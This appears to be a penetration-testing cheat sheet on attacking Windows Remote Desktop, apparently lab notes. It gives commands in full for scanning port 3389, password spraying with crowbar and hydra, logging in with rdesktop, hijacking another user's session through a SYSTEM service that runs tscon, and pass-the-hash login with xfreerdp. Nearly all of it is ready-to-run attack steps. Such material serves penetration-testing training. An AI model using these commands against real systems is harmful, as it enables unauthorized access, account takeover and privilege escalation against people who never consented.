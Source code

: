 
# Nmap

```
nmap -Pn -p3389 192.168.2.143 
```

# Password Attacks

```
cat usernames.txt 

root
test
user
guest
admin
administrator
```

## Crowbar

```
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
```

## Hydra

```
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```

## RDesktop

```
rdesktop -u admin -p password123 192.168.2.143
```

# RDP Session Hijacking

If a user is connected via RDP to our compromised machine, we can hijack the user's remote desktop session to escalate our privileges and impersonate the account. In an Active Directory environment, this could result in us taking over a Domain Admin account or furthering our access within the domain.

To successfully impersonate a user without their password, we need to have SYSTEM privileges and use the Microsoft tscon.exe binary that enables users to connect to another desktop session. It works by specifying which SESSION ID (4 for the lewen session in our example) we would like to connect to which session name (rdp-tcp#13, which is our current session). So, for example, the following command will open a new console as the specified SESSION_ID within our current RDP session:

```
tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

If we have local administrator privileges, we can use several methods to obtain SYSTEM privileges, such as PsExec or Mimikatz. A simple trick is to create a Windows service that, by default, will run as Local System and will execute any binary with SYSTEM privileges. We will use [Microsoft sc.exe binary](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/sc-create). First, we specify the service name (sessionhijack) and the binpath, which is the command we want to execute. Once we run the following command, a service named sessionhijack will be created.

```
sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
```

```
net start sessionhijack
```

> Note: This method no longer works on Server 2019.

## XFreeRDP PassTheHash

```
xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9
```

